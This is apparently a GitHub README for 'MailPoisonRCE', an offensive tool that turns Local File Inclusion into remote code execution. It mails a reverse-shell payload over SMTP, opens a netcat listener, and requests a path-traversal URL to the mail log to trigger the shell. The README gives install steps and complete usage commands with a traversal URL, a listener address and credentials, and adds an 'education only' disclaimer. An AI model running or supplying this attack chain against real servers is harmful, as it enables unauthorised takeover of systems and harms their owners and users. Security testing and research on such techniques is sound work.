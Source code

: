 # MailPoisonRCE

## Mail Poison Remote Code Execution
```sh
This tool is for Local File Inclusion to Remote Code Execution via mail log poisoning. 
There are some requirements needed inorder to use the tool
1. Local File Inclusion
2. smtp authentication

The tool simply access the SMTP and send a mail with a reverseshell payload.
next it will setup a netcat listener and sends a get request on the URL 
thats vulnerable to LFI and access the smtp log to pop the shell
```

### Installation

Run the command below to install the required libraries used in the tool.
* pip3
  ```sh
  pip3 install -r requirements.txt
  ```
  
### Usage

  ```sh
Authenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test -us user -pw root

Unauthenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test
  ```

![alt text](https://github.com/Pilum-Murialis/tools/blob/main/MailPoisonRCE/poc.PNG?raw=true)


# Disclaimer
```sh
The tool is for education purpose only. Usage of the tool for attacking the website without consent is illegal. 
The end user of the tool will be responsible for the damage it might cause.
The developer of the tool assume no liability and not responsbile for any misuse and damage.
```

## Authors

[damaidec](https://medium.com/@damaidec)

[Anantha vijay](https://medium.com/@vj35.cool)


